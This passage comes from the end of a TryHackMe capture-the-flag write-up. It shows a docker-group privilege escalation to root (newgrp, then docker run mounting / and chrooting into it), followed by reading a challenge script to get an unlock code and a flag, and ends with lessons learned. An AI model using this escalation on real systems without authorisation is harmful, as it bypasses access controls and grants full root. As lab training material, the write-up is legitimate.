We get an error message. This is because Linux does NOT apply new group memberships to, existing shells, existing SSH sessions, existing reverse shells. So in other to escalate correctly, we have to do is refresh group membership. This can be done by using newgrp docker command
```bash
dockermgr@tryhackme-2404:~$ newgrp docker
newgrp docker
```
Now grp membership should have successfully refreshed. Next we can then simply run:docker run --rm -it -v /:/mnt alpine chroot /mnt sh to successfully escalate to root.
```bash
dockermgr@tryhackme-2404:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
<docker run --rm -it -v /:/mnt alpine chroot /mnt sh
# 
```
**Flag 3**
Navigating to ```/home/ubuntu/side-quest-2```, then simply reading the scada_terminal.py file using 

```bash
cat scada_terminal.py

╔══════════════════════════════════════════════════════════╗
║                  GATE UNLOCK SUCCESSFUL                  ║
╚══════════════════════════════════════════════════════════╝

[✓] Authorization code verified
[✓] Gate mechanism engaged
[✓] Final gate is now OPEN

Congratulations! You have successfully escaped the asylum!

UNLOCK CODE: 7[redacted]7
"""
            else:
                return "[✗] Invalid authorization code. Access denied."
        
        # Check if it's a file path (try to read numeric code from file)
        if os.path.exists(code):
            try:
                with open(code, 'r') as f:
                    content = f.read().strip()
                    # Extract numeric code (remove any whitespace or newlines)
                    numeric_code = ''.join(filter(str.isdigit, content))
                    if numeric_code == UNLOCK_CODE:
                        GATE_STATUS = "UNLOCKED"
                        return f"""

```
The unlock code is displayed in the script, inputing it in the terminal @port 8080, unlocks and displays flag 3 THM{p[redacted]s3l}
---

## 🏁 Conclusion & Lessons Learned

### Key Takeaways
- Business logic flaws can fully bypass authorization  
- Query parameters overriding JSON body values is dangerous  
- HLS manifests may leak internal backend endpoints  
- Diagnostics features often expose privileged execution paths  
- Docker group membership equals root access  

This room is an excellent example of realistic API abuse and privilege escalation chains.
